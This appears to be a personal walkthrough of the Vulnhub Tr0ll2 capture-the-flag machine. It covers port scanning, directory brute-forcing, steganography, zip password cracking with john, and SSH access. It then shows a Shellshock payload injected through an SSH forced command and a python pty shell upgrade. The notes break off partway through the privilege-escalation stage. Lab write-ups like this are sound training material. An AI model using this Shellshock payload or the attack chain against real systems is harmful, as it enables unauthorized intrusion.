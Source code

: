 #stenaography #shellshock
nmap
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 82:fe:93:b8:fb:38:a6:77:b5:a6:25:78:6b:35:e2:a8 (DSA)
|   2048 7d:a5:99:b8:fb:67:65:c9:64:86:aa:2c:d6:ca:08:5d (RSA)
|_  256 91:b8:6a:45:be:41:fd:c8:14:b5:02:a0:66:7c:8c:96 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

# Port 80
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230828164714.png]]
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230828164734.png]]
robots.txt looks like this:
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230828164754.png]]
I copied the contents and added this via sed:
```
sed -i -e 's/^/http:\/\/192.168.1.14/' dir.txt
```
applied gowitness on all:
```
gowitness file -f dir.txt --screenshot-path .
```
* don't bother
* noob
* keep trying
* ok-this-is-it
were the ones when visited , were directories and had the same files when brtfrcd:
```
16:58:51] 403 -  299B  - /noob/.htaccess.bak1
[16:58:51] 403 -  299B  - /noob/.htaccess.save
[16:58:51] 403 -  296B  - /noob/.ht_wsr.txt
[16:58:51] 403 -  301B  - /noob/.htaccess.sample
[16:58:51] 403 -  299B  - /noob/.htaccess.orig
[16:58:51] 403 -  297B  - /noob/.htaccess_sc
[16:58:51] 403 -  300B  - /noob/.htaccess_extra
[16:58:51] 403 -  297B  - /noob/.htaccessBAK
[16:58:51] 403 -  297B  - /noob/.htaccessOLD
[16:58:51] 403 -  298B  - /noob/.htaccessOLD2
[16:58:51] 403 -  299B  - /noob/.htaccess_orig
[16:58:51] 403 -  290B  - /noob/.html
[16:58:51] 403 -  289B  - /noob/.htm
[16:58:51] 403 -  299B  - /noob/.htpasswd_test
[16:58:51] 403 -  296B  - /noob/.httr-oauth
[16:58:51] 403 -  295B  - /noob/.htpasswds
[16:59:06] 200 -  102B  - /noob/index
[16:59:06] 200 -  102B  - /noob/index.html
```
they had:
![[walkthroughs/Vulnhub/Troll2/IMG/http-192.168.1.14-keep-trying.png]]
when I did the image stenography , checking the hash of the image with `xxd <image>`
BUT ONLY ONE ENDPOINT HAD THIS data in the image: `don't bother`
we get:
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230828221904.png]]

It's a directory:
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230828221937.png]]
it's base64 encoded, decode it with:
`cat answer.txt | base64 -d > ans_decoded.txt`
also look `deep` within yourself:
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230828232052.png]]

![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230828232134.png]]



# Port 21:
Tr0ll:Tr0ll was the password and name as said in the main page: Author:Tr0ll
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230829000449.png]]
It's password protected so we do `zip2john` :
```
zip2john lmao.zip > hash.txt

john --wordlist=./ans_decoded.txt hash.txt
```

![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230829000713.png]]

# Port 22

It's a file named noob and it's a pvt key ssh key
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230829001006.png]]
It's still trolling!!!
when we look at the verbosed output of the tr0ll :
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230829003329.png]]
we see that forced command is enabled:
A way to execute command safely via ssh
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230829003918.png]]
we can set multiple commands:
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230829003956.png]]
How do we exploit?: it has a shellshock vulnerability:
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230829004244.png]]
```
"() { :;}; /bin/bash"
```

![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230829005500.png]]
Let's try nc'ing the shell and making it whole:
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230829005648.png]]
we get it via:
`/usr/bin/python -c 'import pty;pty.spawn("/bin/bash");'`

we get 3 users:
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230829010058.png]]
in the root directory:
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230829010215.png]]
and in it:
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230829010250.png]]
in the door1 , we get this executable :
![[walkthroughs/Vulnhub/Troll2/IMG/Pasted image 20230829010940.png]]
same named file in door2 but with hash:
`0x438546c50f77d4bac3e0c41b4f8bcd60899c4006`
in door 3:
`0x80ac0ab3dd7ab04707b2fec1a7bca030e20e4654`

